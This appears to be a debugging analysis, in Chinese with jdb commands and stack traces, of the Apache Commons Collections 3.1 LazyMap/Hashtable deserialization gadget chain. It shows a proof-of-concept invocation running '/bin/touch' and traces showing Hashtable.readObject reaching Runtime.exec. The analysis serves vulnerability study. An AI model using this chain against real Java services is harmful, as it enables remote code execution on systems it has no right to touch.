 java -agentlib:jdwp=transport=dt_socket,address=192.168.65.23:8005,server=y,suspend=y \
-cp "commons-collections-3.1.jar:." \
LazyMapExecWithHashtable "/bin/touch /tmp/scz_is_here"

jdb -connect com.sun.jdi.SocketAttach:hostname=192.168.65.23,port=8005

stop in org.apache.commons.collections.functors.ChainedTransformer.transform
stop in java.lang.Runtime.exec(java.lang.String[])

  [1] org.apache.commons.collections.functors.ChainedTransformer.transform (ChainedTransformer.java:121), pc = 0
  [2] org.apache.commons.collections.map.LazyMap.get (LazyMap.java:151), pc = 18
  [3] java.util.AbstractMap.equals (AbstractMap.java:495), pc = 118
  [4] org.apache.commons.collections.map.AbstractMapDecorator.equals (AbstractMapDecorator.java:129), pc = 12
  [5] java.util.Hashtable.put (Hashtable.java:470), pc = 60
  [6] LazyMapExecWithHashtable.main (LazyMapExecWithHashtable.java:147), pc = 245

  [1] org.apache.commons.collections.functors.ChainedTransformer.transform (ChainedTransformer.java:121), pc = 0
  [2] org.apache.commons.collections.map.LazyMap.get (LazyMap.java:151), pc = 18
  [3] java.util.AbstractMap.equals (AbstractMap.java:495), pc = 118
  [4] org.apache.commons.collections.map.AbstractMapDecorator.equals (AbstractMapDecorator.java:129), pc = 12
  [5] java.util.Hashtable.reconstitutionPut (Hashtable.java:1,241), pc = 55
  [6] java.util.Hashtable.readObject (Hashtable.java:1,215), pc = 228
  [7] sun.reflect.NativeMethodAccessorImpl.invoke0 (native method)
  [8] sun.reflect.NativeMethodAccessorImpl.invoke (NativeMethodAccessorImpl.java:62), pc = 100
  [9] sun.reflect.DelegatingMethodAccessorImpl.invoke (DelegatingMethodAccessorImpl.java:43), pc = 6
  [10] java.lang.reflect.Method.invoke (Method.java:498), pc = 56
  [11] java.io.ObjectStreamClass.invokeReadObject (ObjectStreamClass.java:1,170), pc = 24
  [12] java.io.ObjectInputStream.readSerialData (ObjectInputStream.java:2,177), pc = 119
  [13] java.io.ObjectInputStream.readOrdinaryObject (ObjectInputStream.java:2,068), pc = 183
  [14] java.io.ObjectInputStream.readObject0 (ObjectInputStream.java:1,572), pc = 401
  [15] java.io.ObjectInputStream.readObject (ObjectInputStream.java:430), pc = 19
  [16] LazyMapExecWithHashtable.main (LazyMapExecWithHashtable.java:172), pc = 335

第一个断点有两次命中。

  [1] java.lang.Runtime.exec (Runtime.java:485), pc = 0
  [2] sun.reflect.NativeMethodAccessorImpl.invoke0 (native method)
  [3] sun.reflect.NativeMethodAccessorImpl.invoke (NativeMethodAccessorImpl.java:62), pc = 100
  [4] sun.reflect.DelegatingMethodAccessorImpl.invoke (DelegatingMethodAccessorImpl.java:43), pc = 6
  [5] java.lang.reflect.Method.invoke (Method.java:498), pc = 56
  [6] org.apache.commons.collections.functors.InvokerTransformer.transform (InvokerTransformer.java:125), pc = 30
  [7] org.apache.commons.collections.functors.ChainedTransformer.transform (ChainedTransformer.java:122), pc = 12
  [8] org.apache.commons.collections.map.LazyMap.get (LazyMap.java:151), pc = 18
  [9] java.util.AbstractMap.equals (AbstractMap.java:495), pc = 118
  [10] org.apache.commons.collections.map.AbstractMapDecorator.equals (AbstractMapDecorator.java:129), pc = 12
  [11] java.util.Hashtable.reconstitutionPut (Hashtable.java:1,241), pc = 55
  [12] java.util.Hashtable.readObject (Hashtable.java:1,215), pc = 228
  [13] sun.reflect.NativeMethodAccessorImpl.invoke0 (native method)
  [14] sun.reflect.NativeMethodAccessorImpl.invoke (NativeMethodAccessorImpl.java:62), pc = 100
  [15] sun.reflect.DelegatingMethodAccessorImpl.invoke (DelegatingMethodAccessorImpl.java:43), pc = 6
  [16] java.lang.reflect.Method.invoke (Method.java:498), pc = 56
  [17] java.io.ObjectStreamClass.invokeReadObject (ObjectStreamClass.java:1,170), pc = 24
  [18] java.io.ObjectInputStream.readSerialData (ObjectInputStream.java:2,177), pc = 119
  [19] java.io.ObjectInputStream.readOrdinaryObject (ObjectInputStream.java:2,068), pc = 183
  [20] java.io.ObjectInputStream.readObject0 (ObjectInputStream.java:1,572), pc = 401
  [21] java.io.ObjectInputStream.readObject (ObjectInputStream.java:430), pc = 19
  [22] LazyMapExecWithHashtable.main (LazyMapExecWithHashtable.java:172), pc = 335
